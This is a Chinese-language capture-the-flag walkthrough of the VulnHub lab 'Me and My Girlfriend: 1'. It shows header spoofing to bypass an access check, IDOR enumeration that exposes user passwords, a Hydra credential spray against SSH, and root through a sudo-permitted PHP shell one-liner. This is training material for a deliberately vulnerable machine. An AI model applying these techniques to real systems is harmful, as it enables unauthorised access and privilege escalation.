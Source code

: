 # ME AND MY GIRLFRIEND: 1

2025.02.13 https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/

[video](https://www.bilibili.com/video/BV12NKHerEAD/?spm_id_from=333.1387.upload.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先访问 80 web 首页，得到提示：

```
Who are you? Hacker? Sorry This Site Can Only Be Accessed local!<!-- Maybe you can search how to use x-forwarded-for -->
```

要添加 x-forwarded-for 为 127.0.0.1 才能进行访问。添加后出现的网址是: http://192.168.5.40/?page=index 这里可能存在文件包含。

```
curl -H 'X-Forwarded-For: 127.0.0.1' -vv http://192.168.5.40

Location: ?page=index
```

直接在浏览器中使用这个插件 X-Forwarded-For Header 可以自动添加 xff 请求头，在注册功能处 http://192.168.5.40/index.php?page=register 注册一个账号，登陆进去后，可以看到 http://192.168.5.40/index.php?page=profile&user_id=12 这里可以修改 user_id 1 至 12 实现用户信息遍历，最终拿到了如下的用户信息：

```
eweuhtandingan:skuyatuh
aingmaung:qwerty!!!
sundatea:indONEsia
sedihaingmah:cedihhihihi
alice:4lic3
abdikasepak:dorrrrr
```

使用上面得到的用户登陆凭据，尝试 ssh 登陆，

```
hydra -t 20 -C cred.txt  ssh://192.168.5.40

[22][ssh] host: 192.168.5.40   login: alice   password: 4lic3
```

使用 alice:4lic3 进行 ssh 登陆, 得到第一个 flag，并得到了一个 note 提示：

```
alice@gfriEND:~$ cd .my_secret/
alice@gfriEND:~/.my_secret$ ls
flag1.txt  my_notes.txt
alice@gfriEND:~/.my_secret$ cat flag1.txt
Greattttt my brother! You saw the Alice's note! Now you save the record information to give to bob! I know if it's given to him then Bob will be hurt but this is better than Bob cheated!

Now your last job is get access to the root and read the flag ^_^

Flag 1 : gfriEND{2f5f21b2af1b8c3e227bcf35544f8f09}
alice@gfriEND:~/.my_secret$ cat my_notes.txt
Woahhh! I like this company, I hope that here i get a better partner than bob ^_^, hopefully Bob doesn't know my notes
```

sudo -l 后显示 (root) NOPASSWD: /usr/bin/php ， 可以直接提权到 root 拿到第 2 个 flag：

```
sudo -u root php -r "system('/bin/bash');"

root@gfriEND:/home# cd /root
root@gfriEND:/root# ls
flag2.txt
root@gfriEND:/root# cat flag2.txt

  ________        __    ___________.__             ___________.__                ._.
 /  _____/  _____/  |_  \__    ___/|  |__   ____   \_   _____/|  | _____     ____| |
/   \  ___ /  _ \   __\   |    |   |  |  \_/ __ \   |    __)  |  | \__  \   / ___\ |
\    \_\  (  <_> )  |     |    |   |   Y  \  ___/   |     \   |  |__/ __ \_/ /_/  >|
 \______  /\____/|__|     |____|   |___|  /\___  >  \___  /   |____(____  /\___  /__
        \/                              \/     \/       \/              \//_____/ \/

Yeaaahhhh!! You have successfully hacked this company server! I hope you who have just learned can get new knowledge from here :) I really hope you guys give me feedback for this challenge whether you like it or not because it can be a reference for me to be even better! I hope this can continue :)

Contact me if you want to contribute / give me feedback / share your writeup!
Twitter: @makegreatagain_
Instagram: @aldodimas73

Thanks! Flag 2: gfriEND{56fbeef560930e77ff984b644fde66e7}
```
